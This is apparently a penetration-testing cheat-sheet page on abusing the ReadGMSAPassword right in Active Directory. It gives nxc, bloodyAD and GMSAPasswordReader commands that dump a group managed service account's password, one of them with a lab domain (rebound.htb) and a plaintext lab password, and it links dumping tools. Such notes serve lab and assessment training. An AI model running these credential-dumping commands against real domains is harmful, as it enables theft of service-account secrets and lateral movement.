 # ReadGMSAPassword

## Linux

{% tabs %}
{% tab title="NXC" %}
```bash
nxc ldap <FQDN> -u <user> -p <pass> -k --gmsa
```
{% endtab %}

{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
bloodyAD -d rebound.htb -u tbrady -p 543BOMBOMBUNmanda --host dc01.rebound.htb get object 'delegator$' --attr msDS-ManagedPassword
```
{% endcode %}
{% endtab %}
{% endtabs %}

For an example using NXC check [Rebound](../../../boxes/insane/rebound.md#gmsa).

## Windows

{% tabs %}
{% tab title="GMSAPasswordReader" %}
{% code overflow="wrap" %}
```powershell
.\GMSAPasswordReader.exe --accountname delegator$
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="gMSADumper" %}
{% embed url="https://github.com/micahvandeusen/gMSADumper" %}
{% endtab %}

{% tab title="GMSAPasswordReader" %}
{% embed url="https://github.com/rvazarkar/GMSAPasswordReader" %}
{% endtab %}
{% endtabs %}

